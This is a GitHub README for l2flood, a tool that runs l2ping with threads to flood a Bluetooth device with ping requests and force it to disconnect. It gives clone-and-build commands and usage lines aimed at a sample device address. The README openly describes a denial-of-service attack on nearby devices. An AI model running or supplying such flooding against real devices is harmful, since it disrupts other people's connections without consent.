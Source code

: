 # l2flood

[l2ping][1] with threads.

Flood a given bluetooth device with ping requests in order to force it to
disconnect.

# INSTALL

```bash
git clone https://github.com/kovmir/l2flood
cd l2flood
make # Use `make serial` to build upstream l2ping.
sudo make install
```

# USAGE

```bash
l2flood 94:3a:2c:e1:2b:07 # Flood a given device using 30 threads.
l2flood -n 50 94:3a:2c:e1:2b:07 # Flood using 50 threads.
```

* The default delay between packets has been changed to `0`.
* The default data packet size has been increased to `600`.
* `l2ping` options work.

[1]: https://linux.die.net/man/1/l2ping

